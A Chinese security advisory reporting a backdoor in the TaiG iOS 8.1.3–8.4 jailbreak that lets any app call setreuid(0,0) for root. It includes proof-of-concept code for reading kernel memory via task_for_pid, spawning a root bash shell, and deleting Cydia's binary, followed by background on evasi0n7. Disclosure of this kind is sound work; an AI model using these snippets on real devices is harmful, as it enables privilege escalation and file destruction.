 # 太极越狱重大安全后门

0x00 背景
=====

太极越狱iOS8.1.3-8.4含有重大安全后门，越狱后导致任意APP可以提权到Root，从而影响用户数据的安全。举例来说获取Root权限后可以完全控制系统文件，甚至进一步安装木马等严重威胁用户安全的恶意软件。

0x01 细节
=====

具体分析结果显示太极越狱修改了`setreuid`这个关键系统API，导致任意APP都可以直接调用`setreuid(0,0)`获得Root执行权限，从而可以修改任意系统文件、也可以`task_for_pid`打开系统内核句柄从而完全控制系统底层。例如通过写入系统目录`“/Library/LaunchDaemons”`可以注册系统服务，从而植入木马、病毒、盗号工具威胁用户隐私数据和密码。

漏洞重现演示如下图：

![enter image description here](http://drops.javaweb.org/uploads/images/b8c5efe580e621eb964c8fd4915cb630665e06d4.jpg)

示例一：通过`test_taig_backdoor1`程序读取内核内存

![enter image description here](http://drops.javaweb.org/uploads/images/512b5c7dbc52f86b96d5d1b27f16151ee2458f87.jpg)

示例二：通过`test_taig_backdoor2`获得root权限shell

`test_taig_backdoor`读取任意内核poc代码：

```
#include <Foundation/Foundation.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/param.h>
#include <spawn.h>
#include <mach/mach.h>

void dump_kernel_memory(vm_address_t addr)
{
    kern_return_t kret;
    mach_port_t proc_task = 0;
    vm_size_t ret_size = 0;
    vm_size_t i;
    char buffer[128] = {0};
    int ret;

    ret = task_for_pid(mach_task_self(), 0, &proc_task);
    if (ret != 0)
    {
        NSLog(@"[err] get tfp0 fail: %d", ret);
        return;
    }

    NSLog(@"task for pid 0 = %u", proc_task);

        kret = vm_read_overwrite(proc_task,
                                addr,
                                sizeof(buffer),
                                  (vm_address_t)buffer,
                                   &ret_size);

    char *info = malloc(4096);
    info[0] = '\0';

    for (i = 0; i < ret_size; i++)
    {
        if (i % 16 == 0) sprintf(info + strlen(info), "\n%p: ", (void *)(addr + i));
        sprintf(info + strlen(info), "0x%02x ", *(uint8_t*)(buffer + i));
    }
    NSLog(@"%s", info);

    free(info);
}

int main (int argc, const char * argv[])
{
    if (argc != 2)
    {
        NSLog(@"%s [kernel_address]", argv[0]);
        return 0;
    }

    NSLog(@"current uid=%d euid=%d", getuid(), geteuid());

    /*
    * taig backdoor test
    */

    setreuid(0,0);

    NSLog(@"now uid=%d euid=%d", getuid(), geteuid());

    vm_address_t addr = strtoul(argv[1], NULL, 16);
    dump_kernel_memory(addr);

    return 0;
}

```

test_taig_backdoor2提权poc代码：

```
void get_root_shell
{
    setreuid(0,0);
    system("/bin/bash -i");
}

```

在APP中添加下面的代码进行删除文件测试（谨慎执行）：

```
void testBackdoor()
{
NSLog(@"当前运行进程 uid=%d euid=%d", getuid(), geteuid());
setreuid(0,0);
NSLog(@"后门提权后，当前运行进程 uid=%d euid=%d", getuid(), geteuid());

NSLog(@"删除任意文件演示（该测试会导致Cydia无法运行，请谨慎执行）");
unlink("/Applications/Cydia.app/MobileCydia");
}

```

太极越狱iOS8.0-8.1.1未能找到机器进行测试，可能也有此重大后门。

0x02 总结
=====

越狱软件中藏有安全后门并非没有先例。早在针对iOS 7的完美越狱工具evasi0n7中，越狱开发者evad3rs就修改了第0号系统调用，导致任意app可以轻易获得内核代码执行的能力。这一做法也引起越狱大神winocm的强烈不满([http://winocm.moe/projects/research/2014/01/11/evading-ios-security/](http://winocm.moe/projects/research/2014/01/11/evading-ios-security/))。早在2014年Winocm在博文中就已经质疑太极是否在利用这个后门。

太极越狱与evad3rs的“绯闻”一直没有间断。据福布斯报道（[http://www.forbes.com/sites/thomasbrewster/2015/06/26/china-iphone-jailbreak-industry/](http://www.forbes.com/sites/thomasbrewster/2015/06/26/china-iphone-jailbreak-industry/)）（[http://mobile.163.com/15/0630/10/ATBNV93H0011671M.html](http://mobile.163.com/15/0630/10/ATBNV93H0011671M.html)）, 太极曾支付evad3rs高达一百万美金用于越狱合作开发，该合作的产物就是evasi0n7强制安装“太极助手”的闹剧。至于太极越狱的安全后门是“惯犯”还是“初犯”的谜底恐怕就无法揭开了。